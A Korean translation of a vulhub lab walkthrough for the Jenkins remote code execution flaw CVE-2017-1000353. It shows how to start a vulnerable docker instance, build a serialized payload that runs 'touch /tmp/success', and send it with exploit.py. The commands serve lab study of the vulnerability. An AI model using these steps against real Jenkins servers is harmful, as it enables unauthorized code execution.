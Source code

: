 # Whitehat School `vulhub` 한글판
# Jenkins-CI 원격 코드 실행 취약점（CVE-2017-1000353）

## 원리

참고 :  https://blogs.securiteam.com/index.php/archives/3171

## 환경 구축

다음 명령을 실행해 jenkins 2.46.1 시작:

```
docker compose up -d
```

부팅이 완료되면 `http://your-ip:8080` 를 방문해 jenkins가 설치되어 있는것을 확인할 수 있다.

## 테스트 과정

### 1. Serialize 문자열 생성
참고 <https://github.com/vulhub/CVE-2017-1000353>
먼저 CVE-2017-1000353-1.1-SNAPSHOT-all.jar 다운받습니다. 이것은 POC를 생성하는 도구다.

다음 명령을 실행하여 바이트 코드 파일 생성 :

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 생성된 바이트 코드 파일 이름
# "touch ..." 실행할 명령
```

코드를 실행하면 jenkins_poc.ser 파일이 생성된다. 이것은 직렬화된(Serialize) 문자열이다.

### 2. 패킷 전송, 명령 실행

[exploit.py]다운로드 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py, python3 실행 `python exploit.py http://your-ip:8080 jenkins_poc.ser`
방금 생성한 바이트 코드 파일을 대상에게 보냅니다:


docker에 들어가면 /tmp/success가 성공적으로 생성되어 취약점을 이용한 공격이 성공했음을 확인할 수 있다.